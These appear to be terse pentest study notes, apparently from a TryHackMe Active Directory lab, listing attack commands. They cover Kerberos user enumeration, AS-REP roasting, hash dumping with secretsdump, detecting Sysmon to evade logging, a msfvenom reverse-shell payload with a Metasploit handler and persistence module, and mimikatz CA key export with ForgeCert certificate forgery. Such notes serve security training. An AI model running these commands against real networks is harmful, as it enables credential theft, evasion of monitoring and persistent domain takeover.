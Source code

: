 ## With Linux
- kerbrute = brute force in kerberus active directory
  - Find users
    - kerbrute userenum -d domain --dc ip word_list.txt
  
- Find user without password (NP)
  - GetNPUsers.py --no-pass -usersfiles {wordlist.txt} domain.com/ -dc-ip [IP-address]
  
- find other hashes
  - secretsdump.py -dc-ip ip host.local/user@ip

## PERSISTING AD
- Identify segemtns: vlans, dmz
- IDS, IPDS, Endpoint Detection and Response

- Logs
  - sysmon: logger
    - get-Process | Where-Object  { $_.ProcessName -eq "Sysmon" }
    - Get-CimInstance win32_service -Filter "Description = 'System Monitor Service'"
    - Get-Service | where-object {$_.DisplayName -like "*sysm*"}
    - Get-CimInstance win32_service -Filter "Description = 'System Monitor service'"
    - reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\WINEVT\Channels\Microsoft-Windows-Sysmon/Operational
    - findstr /si '<ProcessCreate onmatch="exclude">' C:\tools\*

- Enumerate services, hidden folders and process, shared files/printers

### create reverse shell
- msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe
- use exploit/multi/handler
- use exploit/windows/local/persistence

- Domain replication: using same username:password
- Knowledge Consistency Checker (KCC) => sync info
- Attention:
  - cred with local admin rights
  - service accounts with delegation
  - Accounts for privileged AD service



### Persistance with Certificate
- dangerous: full domain rebuild
- Private key on CA server
  - crypto::certificates /systemstore:local_machine
    - find CA certificate
  - privilege::debug
  - crypto::capi
  - crypto::cng
  - crypto::certificates /systemstore:local_machine /export
- Forge certificate
  - ForgeCert and Rubeus
    - ForgeCert.exe --CaCertPath .pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc - -NewCertPath fullAdmin.pfx --NewCertPassword Password123
